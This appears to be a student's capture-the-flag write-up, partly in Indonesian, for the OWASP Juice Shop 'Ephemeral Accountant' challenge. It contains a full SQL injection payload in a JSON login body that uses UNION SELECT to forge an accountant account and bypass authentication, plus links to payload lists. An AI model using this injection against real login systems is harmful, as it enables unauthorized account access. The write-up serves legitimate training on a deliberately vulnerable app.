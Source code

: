 # Ephemeral Accountant

Log in with the (non-existing) accountant `acc0unt4nt@juice-sh.op` without ever registering that user.

## Reference

- https://github.com/payloadbox/sql-injection-payload-list
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

## Steps

Saya melakukan inspeksi ketika mencoba untuk login. Lalu, dari database schema sebelumnya saya analisa strukturnya. Karena diminta untuk login sebagai user yang tidak terdaftar saya akan menggunakan `UNION` dan menambahkan kombinasi payload.

```json
{
  "email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
  "password": "bebas"
}
```

Setelah itu, masukkan ke login page
<img src="./img/accountantlogin.png">

Dan kita bisa masuk sebagai user accountant
<img src="./img/accountantloggedin.png">
